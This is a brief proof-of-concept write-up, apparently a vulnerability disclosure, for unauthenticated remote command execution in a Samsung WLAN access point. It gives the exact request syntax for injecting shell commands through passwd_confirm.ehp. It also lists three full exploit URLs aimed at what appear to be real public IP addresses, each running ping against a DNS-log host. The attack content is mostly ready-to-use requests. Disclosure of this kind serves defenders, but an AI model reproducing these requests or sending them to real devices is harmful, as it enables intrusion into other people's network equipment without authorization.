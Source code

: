 Samsung WLAN AP, which has a command execution vulnerability, injects commands and executes them via remote without logging in.

**passwd_confirm.ehp** exists for remote command execution.

For example, execute the `ping` command through the `shell`.

Command format:`&command1=shell:ping+dnslog`

Execute commands directly through the browser without logging into the device.

**xxx/passwd_confirm.ehp?path=DB%20Restore&command1=shell:ping+dnslog**

The following examples verify the existence of the vulnerability：

`http://112.170.189.193/passwd_confirm.ehp?path=DB%20Restore&command1=shell:ping+e2476a71.dns.1433.eu.org`

![](4.png)
`http://220.92.38.104/passwd_confirm.ehp?path=DB%20Restore&command1=shell:ping+dbcbca84.dns.1433.eu.org`

![](5.png)
`http://112.170.189.193/passwd_confirm.ehp?path=DB%20Restore&command1=shell:ping+ff9949fe.dns.1433.eu.org`

![](6.png)
